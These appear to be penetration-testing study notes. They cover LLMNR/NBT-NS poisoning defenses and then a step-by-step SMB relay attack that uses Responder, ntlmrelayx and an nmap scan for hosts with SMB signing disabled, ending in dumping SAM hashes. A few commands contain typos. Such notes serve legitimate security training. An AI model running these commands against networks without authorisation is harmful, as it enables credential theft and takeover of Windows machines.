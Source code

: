 ## LLMNR Poisoning Defense
- BEST defense is to disable LLMNR and NBT-NS
	- To disable LLMNR, select "Turn OFF Multicast Name Resolution" under local computer policy > computer configuration > administrative templates > network > DNS client in the Group Policy Editor
	- To disable NBT-NS, navigate to network connections > network adapter properties > TCP/IPv4 properties > advanced tab > WINS tab and select "Disable NetBIOS over TCP/IP"
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:
	- enable/require Network Access Control (NAC)
	- require strong user passwords (e.g., >14 characters in length and limit common word usage). The more complex and long the password, the harder it is for an attacker to crack the hash

# SMB Relay Attacks Overview
What is SMB Relay?
- instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access
Requirements
- `SMB signing` must be disabled on the target
- relayed user credentials must be admin on machine
SMB Relay
1. config responder >> in responder.conf turn off SMB and HTTP >> we will be listening but not responding, just using responder to capture
2. run responder
```bash
python Responder.py -l tun0 -rdw
```
3. set up your relay
```bash
python ntlmrelayx.pty -tf targets.txt -smb2support
```
4. an event ocurs >> relays credentials 
5. Win >> dumping out SAM file (usernames and hashes for local users on device) >> can now crack hashes or pass the hash

## Discovering Hosts with SMB Signing Disabled
We need to tell which hosts have SMB enabled 
can use nessus
using NMAP:
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
#note down applicable target IPs >> targets.txt

#set up responder config, SMB and HTTP off
gedit /etc/responder/Responder.conf
#run responder
responder -I eth0 -rdwv

#new tab to set up relay
```

```bash
#relay tab
ntlmrelayx.py -tf targets.txt -smb2support #starts relay server
```
- observe >> copy and save hashes 
